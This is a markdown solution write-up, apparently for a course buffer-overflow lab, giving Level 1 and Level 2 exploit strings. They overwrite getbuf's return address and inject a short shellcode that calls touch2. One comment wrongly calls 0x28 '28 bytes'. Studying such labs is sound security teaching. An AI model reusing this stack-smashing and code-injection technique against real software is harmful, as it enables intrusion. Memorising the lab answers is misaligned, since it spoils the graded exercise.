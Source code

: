 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	c3                   	ret    
```

<ins> Format: 
  1. 0x28 filler
  2. address of exploit code  <- %rsp on getbuf ret
  3. address of touch2        <- %rsp on exploit code ret
  4. exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

